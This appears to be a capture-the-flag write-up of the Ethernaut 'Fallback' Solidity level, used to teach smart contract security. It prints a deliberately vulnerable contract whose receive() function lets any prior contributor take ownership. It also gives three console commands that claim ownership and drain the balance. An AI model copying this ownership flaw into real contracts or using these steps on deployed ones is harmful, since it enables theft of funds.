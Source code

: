 # Fallback 

## Challenge statement
```
Look carefully at the contract's code below.

You will beat this level if

- you claim ownership of the contract
- you reduce its balance to 0

Things that might help

- How to send ether when interacting with an ABI
- How to send ether outside of the ABI
- Converting to and from wei/ether units (see help() command)
- Fallback methods
```

Contract
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```


## Breakdown

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0; // 0.6.x version

import '@openzeppelin/contracts/math/SafeMath.sol'; // OpenZeppelin SafeMath library

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions; // mapping for address contributions to uint, public for all to view
  address payable public owner; // owner variable, type payable address (can send/receive eth), others can view it

  constructor() public {
    owner = msg.sender; // owner of contract is msg.sender (creator)
    contributions[msg.sender] = 1000 * (1 ether); // set msg.sender to have 1000 * (1 ether)
  }

  // set so only the owner address can proceed
  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether); // must be less than 0.001 ether to work
    contributions[msg.sender] += msg.value; // increment contributions value by msg.value
    if(contributions[msg.sender] > contributions[owner]) { // if the contributions of sender are greater than owner, change owner to sender
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) { // view contribution of of the sender address
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner { // only the owner can withdraw
    owner.transfer(address(this).balance);
  }

  receive() external payable { // another function to change the owner, if the msg.value > 0 and the contributions of the sender are >0, change owner
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

## Solution

This challenges consists of understanding:
- How to interact with the contract 
- How fallback functions work

The goal of the exercise is to transfer ownership of the contract. From reading the code, this is possible by either sending more than 1000 ETH in <0.001 increments or triggering the receive() fallback function.

The simplest method is to trigger the receive() fallback function. For the conditions of receive() to be met, some ether must be sent and the sender must have already contributed some ether.

### Step 1: Contribute <0.001 ether to contract

await contract.contribute({value: toWei("0.0000001")})

### Step 2: Trigger receive() function

await contract.sendTransaction({from: player, to: contract.address, value: toWei("0.0000000001")
})

## Step 3: Withdraw ether

await contract.withdraw();

